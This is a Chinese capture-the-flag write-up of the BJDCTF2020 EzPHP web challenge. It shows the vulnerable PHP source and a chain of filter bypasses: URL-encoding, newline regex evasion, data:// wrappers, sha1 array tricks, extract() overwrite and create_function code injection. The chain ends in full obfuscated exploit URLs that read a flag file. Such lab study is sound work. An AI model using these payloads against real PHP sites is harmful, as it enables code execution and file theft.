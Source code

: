 # \[BJDCTF2020]EzPHP

## \[BJDCTF2020]EzPHP

## 考点

* base32
* `$_SERVER['QUERY_STRING']`不进行URL解码，用`URL编码`绕过
* `$_GET['debu']`要是aqua\_is\_cute但又不能是aqua\_is\_cute，用`%0a`换行符绕过
* `$_REQUEST`中参数值不能出现字母，<mark style="color:orange;">`$_REQUEST`</mark><mark style="color:orange;">是优先读取POST传参再读取GET传参，可以先POST再GET</mark>
* `file_get_contents($file)`一般配合`php://input`，还可以配合`data://text/plain,debu_debu_aqua`
* `$code('', $arg);`对应`create_function`
* 代码执行可以看一下`get_defined_vars()`

## wp

F12给了一段密文`GFXEIM3YFZYGQ4A=`

目测是base家族的，64，32，16等等试一下，发现是base32，解码是`1nD3x.php`

给了源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

一点一点看，`$_SERVER['QUERY_STRING']`是get方式传入的内容，它不会进行URL解码，可以用URL编码可以绕过这个限制

然后`$_GET['file']`不能有`http(s)`，`$_GET['debu']`要是`aqua_is_cute`，这个可以用换行符绕过

`?deb%75=aq%75a_is_c%75te%0a&file=a`

![](<../../.gitbook/assets/image (5) (1) (1) (1).png>)



然后是\_REQUEST中参数值不能出现字母，\_REQUEST是优先读取POST传参再读取GET传参，可以先POST再GET

```
GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=a

POST file=1&debu=1
```

寄了，BUUOJ环境有问题，本地复现吧。访问`1nD3x.php?file=***`，明显应该到`Aqua is the cutest five-year-old child in the world!`那里的`die`的，但是得到的回显还是`fxck you! I hate English!`

接着是要满足`file_get_contents($file)`的结果为`debu_debu_aqua`，一般这种可以用`php://input`，但是这里已经有了POST的内容，可以换成data伪协议。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61
POST file=1&debu=1
```

然后是经典的绕HASH，`sha1($shana) === sha1($passwd) && $shana != $passwd`，直接传数组即可

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2

POST file=1&debu=1
```

然后看到`extract($_GET["flag"]);`，存在变量覆盖。最后一段代码是对`$code`和`$arg`进行操作，但是题目并不能直接传参，那就是要用变量覆盖进行传参。

然后`if(preg_match('/^[a-z0-9]*$/isD', $code)`是code中不能有字母数字，在后面一个正则过滤了很多关键字，这样`$arg`就不是很好绕过了

最后的`$code('', $arg);`是`create_function`，这个出现了很多次了。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(a);//



GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%76%61%72%5F%64%75%6D%70%28%61%29%3B%2F%2F
POST file=1&debu=1
```

![](<../../.gitbook/assets/image (23) (1).png>)

成功输出，最后是怎么获取flag。代码执行没有过滤call\_user\_func，文件包含没有过滤require，目录扫描没有过滤DirectoryIterator

其实一开始想的是无参RCE和取反，后面看了wp一下，在get\_defined\_vars()中看到一个奇怪的变量`ffffffff11111114ggggg`，意思就是flag在`rea1fl4g.php` ，应该是文件读取了。

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)
```

最后用取反绕过滤

```
<?php
echo urlencode(~'php://filter/read=convert.base64-encode/resource=rea1fl4g.php');

// %8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F

require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F))
```

最后的payload

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%72%65%71%75%69%72%65%28%7E%28%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F%29%29%3B%2F%2F
POST file=1&debu=1
```

解码即可
